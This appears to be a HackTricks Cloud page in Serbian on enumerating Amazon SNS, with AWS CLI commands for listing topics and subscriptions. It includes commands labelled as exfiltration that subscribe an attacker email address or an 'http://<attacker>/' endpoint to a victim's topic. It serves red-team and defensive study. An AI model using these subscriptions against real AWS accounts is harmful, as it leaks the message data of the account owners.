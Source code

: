 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) se opisuje kao **potpuno upravljana usluga za razmenu poruka**. Podržava i **aplikacija-na-aplikaciju** (A2A) i **aplikacija-na-osobu** (A2P) tipove komunikacije.

Ključne karakteristike za A2A komunikaciju uključuju **mehanizme objavljivanja/pretplate (pub/sub)**. Ovi mehanizmi uvode **teme**, koje su ključne za omogućavanje visoke propusnosti, **push-bazirane, mnoge-na-mnoge razmene poruka**. Ova funkcija je veoma korisna u scenarijima koji uključuju distribuirane sisteme, mikroservise i arhitekture bez servera zasnovane na događajima. Korišćenjem ovih tema, sistemi za objavljivanje mogu efikasno distribuirati poruke širokom spektru sistema za pretplatu, olakšavajući obrazac razmene poruka.

### **Razlika sa SQS**

**SQS** je **usluga zasnovana na redovima** koja omogućava komunikaciju tačka-tačka, osiguravajući da poruke obrađuje **jedan potrošač**. Nudi **isporuku najmanje jednom**, podržava standardne i FIFO redove, i omogućava zadržavanje poruka za ponovne pokušaje i odloženu obradu.\
S druge strane, **SNS** je **usluga zasnovana na objavljivanju/pretplati**, koja omogućava **jedan-na-mnoge** komunikaciju emitovanjem poruka **više pretplatnika** istovremeno. Podržava **različite krajnje tačke pretplate kao što su email, SMS, Lambda funkcije i HTTP/HTTPS**, i pruža mehanizme filtriranja za ciljanje isporuke poruka.\
Dok obe usluge omogućavaju odvajanje između komponenti u distribuiranim sistemima, SQS se fokusira na komunikaciju putem redova, dok SNS naglašava komunikacione obrasce zasnovane na događajima i širenju.

### **Enumeracija**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Napomena da ako je **tema tipa FIFO**, samo pretplatnici koji koriste protokol **SQS** mogu biti korišćeni (HTTP ili HTTPS ne mogu biti korišćeni).

Takođe, čak i ako `--topic-arn` sadrži region, obavezno navedite tačan region u **`--region`** ili ćete dobiti grešku koja izgleda kao da nemate pristup, ali je problem u regionu.
{% endhint %}

#### Neautorizovani Pristup

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Eskalacija Privilegija

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Post Eksploatacija

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Postojanost

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Reference

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

